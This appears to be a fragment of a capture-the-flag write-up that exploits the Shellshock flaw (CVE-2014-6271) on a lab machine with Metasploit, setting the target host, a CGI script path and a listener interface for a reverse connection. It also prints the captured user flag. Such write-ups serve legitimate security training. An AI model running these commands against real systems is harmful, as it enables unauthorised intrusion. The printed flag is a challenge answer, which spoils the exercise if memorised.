




Now we can move on to Metasploit to search for the CVE and attempt to exploit the vulnerability.
```bash
$ msfconsole
$ search CVE-2014-6271
```


We can use the option 1
```bash
$ use 1
$ options
```


```bash
$ set RHOST 10.129.17.166
$ set TARGETURI /cgi-bin/user.sh
$ set LHOST tun0
```


```bash
$ run
```


Now you can get the user flag in /home/shelly directory
```bash
User Flag → c34fbfa84440881895d522cfa94de71e
```


[Back](README.md)